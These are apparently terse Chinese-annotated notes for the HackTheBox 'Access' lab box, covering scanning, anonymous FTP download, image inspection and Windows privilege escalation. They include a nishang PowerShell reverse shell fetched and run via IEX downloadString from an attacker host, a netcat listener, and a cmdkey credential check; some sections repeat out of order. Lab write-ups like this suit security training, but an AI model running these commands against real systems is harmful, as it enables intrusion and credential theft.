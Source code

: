
## 80端口（网页）
        wget http://10.10.10.98/out.jpg
        exiftool out.jpg
        string out.jpg

## gobuster扫描
        gobuster -u http://10.10.10.98 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

## 提权(nishang)
        mkdir www
        cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 ./reverse.ps1
        python -m SimpleHTTPServer 
        nc -lvnp 9001
        > powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.101:8000/reverse.ps1')"
        cd /opt/JAWS
        git pull
        cp /opt/JAWS/jaws-enum.ps1 .
        > IEX(New-Object Net.WebClient).downloadString('http://10.10.16.101:8000/jaws-enum.ps1')

### 查看JAWS搜集的信息
        vi notes
        login.md
        > cmdkey /list
        > cd inetpub
        > cd wwwroot

# HackTheBox-Access

## nmap扫描
                nmap -sC -sV -oA nmap/access 10.10.10.98

## telnet服务
                telnet 10.10.10.98
## ftp服务
                ftp 10.10.10.98(<user:password>:anonymous:anonymous)

                wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98

## http服务
                http://10.10.10.98
                http://10.10.10.98/robots.txt
                wget http://10.10.10.98/out.jpg
                exiftool out.jpg
                strings out.jpg
